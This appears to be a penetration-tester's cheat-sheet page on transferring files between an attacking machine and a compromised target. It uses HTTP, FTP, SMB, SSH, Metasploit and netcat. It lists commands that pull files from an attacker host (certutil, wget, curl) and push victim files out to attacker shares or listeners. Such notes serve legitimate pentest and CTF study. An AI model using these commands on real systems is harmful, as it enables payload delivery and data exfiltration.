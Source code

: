 # Transfert file between target and attacking machines

## HTTP

### From attack machine to Target

#### Attacking machine

- In kali we can use python `python -m http.server 80`

#### Target machine

- On a win target machine you can access it directly with the browser: `http://IP-ATTACKING-MACHINE/FILE-TO-GET` or you can use certutil.exe `certutil.exe -urlcache http://IP-ATTACKING-MACHINE/FILE-TO-GET file-to-get`
- In a linux target machine you can use `wget http://IP-ATTACKING-MACHINE/FILE-TO-GET` or curl `curl -o FILE-TO-GET http://IP-ATTACKING-MACHINE/FILE-TO-GET`

## FTP

### From attack machine to target

#### Attacking machine

- `python3 -m pyftpdlib -p 21 --write`

####  Target machine

- `ftp IP-OF-ATTACKING-MACHINE` we can then use `get filename` to get the file

### From Target to attack

#### Attacking machine

- `python3 -m pyftpdlib -p 21 --write`

####  Target machine

- `ftp IP-OF-ATTACKING-MACHINE` we can then use `put filename` to send the file

## SMB

### From Target to attack machine

#### Attacking machine

- In kali we can use Impacket `python3 smbserver.py -smb2support sharename /path/folder`
- We can specify `-username user -password pass` if we need set up an authentication

#### Target machine

- In a win victim machine we just need to copy the file to the attacking machine: `copy  FiletoDownload \\IP-OFF-ATTACKING-MACHINE\SHARENAME`
- Sometimes on windows we will be asked to use a service that requires authentication so we can set this up with `net use \\<network-location>\<some-share> password /USER:username` after this we will be able to use the previous copy command

## Metasploit

### From attack machine to Target

There is an upload and download feature

## SSH (creds needed)

### From attack machine to Target (local to remote)

- In your kali or any linux `scp FILE-TO-SEND user@ip:/path/to/folder`

### From target to attack (remote to local)

- In your kali or any linux cmd `scp user@ip:/path/to/folder FILE-TO-GET`

### Note

- If you get this error `protocol error: filename does not match request`
- You will need to add `-T` in your command. Here is an example:
- `scp -T user@server:C:\\Path\\To\\file.txt dest-folder`

## Netcat

### From Target to attack machine

#### Target machine

- `nc -lvp PORT-NUMBER > FILE-TO-SEND

#### Attacking machine

- `nc VICTIM-IP PORT-NUMBER -w 3 < FILE` note: -w is for the time out in seconds


## Resources

{% embed url="https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/" %} Transfer files (Post explotation) – CheatSheet - PABLO PLAZA MARTÍNEZ {% endembed %}
